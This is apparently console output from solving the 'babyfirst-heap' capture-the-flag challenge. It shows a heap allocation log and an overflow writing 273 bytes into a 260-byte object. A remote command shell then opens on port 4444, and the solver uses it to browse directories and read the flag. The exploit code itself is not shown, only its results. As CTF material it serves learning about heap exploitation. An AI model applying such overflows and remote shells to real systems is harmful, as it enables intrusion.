 ```
[ALLOC][loc=9BFB958][size=947]
[ALLOC][loc=9BFBD10][size=741]
[ALLOC][loc=9BFC000][size=706]
[ALLOC][loc=9BFC2C8][size=819]
[ALLOC][loc=9BFC600][size=673]
[ALLOC][loc=9BFC8A8][size=1004]
[ALLOC][loc=9BFCC98][size=952]
[ALLOC][loc=9BFD058][size=755]
[ALLOC][loc=9BFD350][size=260]
[ALLOC][loc=9BFD458][size=877]
[ALLOC][loc=9BFD7D0][size=1245]
[ALLOC][loc=9BFDCB8][size=1047]
[ALLOC][loc=9BFE0D8][size=1152]
[ALLOC][loc=9BFE560][size=1047]
[ALLOC][loc=9BFE980][size=1059]
[ALLOC][loc=9BFEDA8][size=906]
[ALLOC][loc=9BFF138][size=879]
[ALLOC][loc=9BFF4B0][size=823]
Write to object [size=260]:
[*] Copied 273 bytes.

[*] Command shell session 1 opened (10.0.1.12:56273 -> 23.22.192.226:4444) at 2014-05-18 18:18:39 -0400

cat key
cat: key: No such file or directory
cd /home
ls
babyfirst-heap
ubuntu
cd b
/bin//sh: 5: cd: can't cd to b
cd babyfirst-heap
cat key
cat: key: No such file or directory
ls
babyfirst-heap
flag
cat flag
The flag is: Good job on that doubly linked list. Why don't you try something harder!!OMG!!
```
